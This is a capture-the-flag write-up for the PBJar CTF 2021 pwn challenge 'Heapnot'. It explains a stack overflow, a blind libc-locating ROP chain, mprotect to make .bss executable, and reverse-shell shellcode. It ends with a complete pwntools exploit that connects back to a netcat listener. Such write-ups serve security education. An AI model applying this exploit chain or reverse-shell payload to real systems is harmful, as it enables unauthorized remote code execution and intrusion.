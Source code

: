 ​**Heapnot**,

was a challenge from PBJar.CTF.2021 written by Rythm (great challenge creator..)

and it was funny & tricky...I did firstblood on it, and it only has 2 solves after 48hours of ctf...so not so easy...

let's check protections first.

![](https://github.com/nobodyisnobody/write-ups/raw/main/PBjar.CTF.2021/pwn/Heapnot/pics/checksec.png)

well , when we launch the program it show a classical heap exploitation menu... add, free, show, etc...

but, as it name implies, it's not about heap :)

let's reverse it..

![](https://github.com/nobodyisnobody/write-ups/raw/main/PBjar.CTF.2021/pwn/Heapnot/pics/reverse1.png)

so well it looks like a heap challenge,  let's check this menu function,  a char nptr[44] is defined on stack, and passed as an argument to the menu() function..

![](https://github.com/nobodyisnobody/write-ups/raw/main/PBjar.CTF.2021/pwn/Heapnot/pics/reverse2.png)

well..

do you see it?  --->>  a1[read(0, a1, 0x4000uLL) - 1] = 0

it reads 0x4000 bytes in a 44 byte buffer... nice buffer overflow, and as there is no canary.. should be easy to exploit...

well not so easy..

if you look at the end of stkspace() function, the program close stdin, stdout, and stderr before exiting...

so no way to have a leak of libc.. or anything else...

the best way when a program is totally blind like this, is to do a reverse shellcode that connect back to you.. like this we can have a shell on the remote box.

**First Step:**

As we can not leak libc address we will use a trick to find it..

> we found a gadget "add rax,rdx; jmp rax" in the program, a gadget used by the C switch table generated by gcc..

the idea is to allocate a bloc > 128kb , to have an address mmapped just before libc, returned by malloc in rax,

then we use libcsu gadgets to put the offset we want to jump to in rdx,  (and eventually its arguments in rdi,rsi.. )

and call our gadget... like this we can call any function we want in libc, even if we don't really know libc address base..

but there is still a little problem , as we need rdx for the offset of the function, we can not use the 3rd arguments (that is stored in rdx reg)

if we call a libc function.. that's not funny..

So here comes another usefull gadget, in libc this time..

> "mov qword ptr [rdi], rax ; subsd xmm0, xmm1 ; ret"   at libc offset 0x3accb

well let's imagine, we allocate a big bloc with malloc (which is in program .plt function), it return us an address just before libc

then we calculate the offset from our libc gadget "mov [rdi],rax" and put this offset in rdx,

then we call libcsu gadget to put correct values in rdx, and rdi,  and we call our "add rax,rdx / jmp rax" gadget...that calls "mov [rdi],rax"

it will write back the libc address where we want for later use... so we put a .bss address in rdi.. and do it.

Now we have the libc real address write by our "mov [rdi], rax" gadget in a location on .bss.

we use another very usefull gadget, that is almost always present in 64 bit binaries generated by gcc

> 0x0000000000401198 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret

with this gadget we can add a 32bit value to a memory dword, or if this dword is already at zero, it will act as a write primitive..

we can off course set correct rbp & rbx values, with the libcsu gadgets...

so now we modify our libc address we stored on .bss, and add an offset to it , to change it to mprotect address in libc.

like this we can call it with libcsu gadget, without blocking rdx register, and we will call mprotect to change .bss protection to RWX.

ouff !!!!

**Next Step:**

We use our add/write primitive to write our shellcode on the .bss, that is now executable (RWX)

then next, we jump to our shellcode...

our shellcode, will be a reverse connection shellcode that connect to the IP and PORT we want,  

where a "nc -l -p PORT"  will wait for connection back...

if you understand nothing of what I said :)   just study the exploit code in python...

see it in action..

![](https://github.com/nobodyisnobody/write-ups/raw/main/PBjar.CTF.2021/pwn/Heapnot/pics/gotshell.gif)

the exploit code:

```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'error'

def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', filename]).decode().split(' ')]

exe = ELF('./heapnot')
rop = ROP(exe)
libc = ELF('./libc.so.6')

host, port = "143.198.127.103", "42009"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process(exe.path)

buff = 0x404c00			# a buffer on bss+0xa00 around

# find the various gadget we need
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
gadget_add = next(exe.search(asm('add [rbp-0x3d], ebx')))

gadget_csu = next(exe.search(asm('pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret')))
gadget_csu2 = next(exe.search(asm('mov rdx,r14; mov rsi,r13; mov edi,r12d')))

def add_gadget(gadget_csu, gadget_add, address, val):
  return p64(gadget_csu)+p64(val & 0xffffffff)+p64(address+0x3d)+p64(0)*4+p64(gadget_add)

gadget1 = rop.find_gadget(['ret'])[0]                       # ret
gadget2 = next(exe.search(asm('add rax,rdx; jmp rax;')))

# put the correct address of you listening nc here (IP & port) the port must be reachable from internet
shellc = asm(shellcraft.connect(host='127.0.0.1',port=12490,network='ipv4')+shellcraft.dupsh())

length = len(shellc)
length = (length+3) & 0xffc
shellc = shellc.ljust(length,'\x90')

#libc gadgets,  (write primitive)
gl0 = 0x000000000003accb # mov qword ptr [rdi], rax ; subsd xmm0, xmm1 ; ret

# offset in remote docker is a bit different
if args.REMOTE:
  offset = 0x25ff0
else:
  offset = 0x24ff0

payload = '5 '+'A'*0x2e+p64(0xdeadbeef)
# add ret gadget address to bss 
payload += add_gadget(gadget_csu,gadget_add,buff,gadget1)
# copy shellcode to bss with gadget_add
for i in range(length/4):
  payload += add_gadget(gadget_csu,gadget_add,buff+8+(i*4), u32(shellc[i*4:(i*4)+4]))
# call malloc to have a near libc address in rax, then jump to mprotect with gadget2
payload += p64(pop_rdi)+p64(140000)+p64(exe.symbols['malloc'])+p64(gadget_csu)+p64(0)+p64(1)+p64(buff-8)+p64(0)+p64(offset + gl0)+p64(buff)+p64(gadget_csu2)+p64(0)*7+p64(gadget2)
payload += add_gadget(gadget_csu,gadget_add, buff-8  , (libc.symbols['mprotect'] - gl0))
payload += p64(gadget_csu)+p64(0)+p64(1)+p64(0x404000)+p64(0x1000)+p64(7)+p64(buff-8)+p64(gadget_csu2)+p64(0)*7
# jump to my shellcode
payload += p64(buff+8)

print('now we send our payload...')
p.sendafter('go!")?\n', payload.ljust(0x4000,'\x00'))

p.interactive()
```

*nobodyisnobody still pwning things..*

